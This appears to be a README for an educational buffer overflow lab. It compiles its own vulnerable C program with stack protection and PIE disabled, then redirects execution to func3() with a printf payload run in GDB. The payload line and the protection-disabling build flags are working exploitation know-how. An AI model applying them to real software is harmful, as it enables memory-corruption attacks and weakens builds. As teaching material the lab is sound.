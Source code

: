# Buffer Overflow Vulnerability Exploitation Project

## Overview
This project demonstrates a buffer overflow vulnerability exploit using a controlled environment with a vulnerable C program (`prog.c`). It provides insights into buffer overflow mechanics, the exploitation process, and the security implications associated with this vulnerability.

## Table of Contents
1. [Project Structure](#project-structure)
2. [Requirements](#requirements)
3. [Compilation Instructions](#compilation-instructions)
4. [Attack Execution](#attack-execution)
5. [Related Attacks](#related-attacks)
6. [Documentation](#documentation)
7. [License](#license)
8. [Acknowledgments](#acknowledgments)

## Project Structure
- **`src/`**: Contains the vulnerable C program (`prog.c`) used in the exploit demonstration.
- **`docs/`**: Includes a detailed project report (`Buffer_overflow.pdf`) describing the experiment, methodology, and results.

## Requirements
To run this project, ensure you have:
- **gcc** (for compiling C programs)
- **GDB** (GNU Debugger)

## Compilation Instructions
To compile `prog.c` with specific flags that disable security protections and make exploitation feasible, use:

```bash
gcc src/prog.c -o prog -fno-stack-protector -g -no-pie
```

### Explanation of Compilation Flags
- **`-fno-stack-protector`** : Disables stack protection (stack canaries), which usually detect buffer overflows.
- **`-g`** : Includes debugging information for GDB.
- **`-no-pie`** : Disables Position Independent Executable, keeping function addresses static for easier debugging and exploitation.



## Attack Execution
Follow these steps to perform the buffer overflow attack:

1. Launch GDB:
```bash
gdb ./prog
```

2. Set Breakpoints: Use - **`br 21`** to set a breakpoint on line 21 where the overflow occurs.

3. Craft the Payload: Input characters that overflow the buffer, followed by the address of the target function (func3()).

4. Run the Exploit: Execute the payload:

```bash
printf '23 BBBBBBBBBBBBBBBBBB\x97\x11\x40' > input.txt
gdb -q -ex "r < ./input.txt" prog
```

5. Observe Output: Check that the program redirects execution to func3() and prints the output "Inside func3".

### For more details, refer to the full project report in the **`docs/`** directory.

## Related Attacks
This project also examines similar vulnerabilities that can be exploited using buffer overflows:

+ Stack Smashing: Overflowing stack buffers to overwrite the return address.
+ Heap Overflow: Overflowing buffers in the heap to corrupt memory.
+ Format String Attack: Exploiting format strings to access or manipulate memory.
+ Return-to-libc Attack: Redirecting program execution to functions in the libc library.
+ Denial-of-Service (DoS): Crashing or hanging the system by overflowing buffers.
## Documentation
For a comprehensive explanation of the project methodology, attack steps, and observations, see the Buffer Overflow Project Report in the docs/ folder.

## License
This project is licensed under the MIT License - see the LICENSE file for details.